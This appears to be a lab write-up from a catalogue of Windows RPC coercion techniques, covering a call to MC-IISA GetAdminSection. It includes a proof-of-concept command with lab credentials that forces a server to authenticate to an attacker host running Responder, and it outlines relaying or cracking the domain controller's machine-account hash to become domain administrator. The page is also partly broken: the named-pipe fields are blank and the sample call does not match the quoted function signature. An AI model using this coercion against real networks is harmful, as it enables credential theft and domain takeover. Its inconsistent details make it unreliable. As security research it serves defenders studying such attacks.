 # MC-IISA - Remote call to GetAdminSection (opnum 6)

## Summary

+ **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

+ **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetAdminSection`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/0ff8f4cd-3d99-47a5-a457-721f24cb09f6)

+ **Function operation number**: `6`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`GetAdminSection`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/0ff8f4cd-3d99-47a5-a457-721f24cb09f6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetAdminSection('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetAdminSection(
   [in] BSTR bstrSectionName,
   [in] BSTR bstrPath,
   [out, retval] IAppHostElement** ppAdminSection
 );
```

## References

+ Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

+ Documentation of function `GetAdminSection`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/0ff8f4cd-3d99-47a5-a457-721f24cb09f6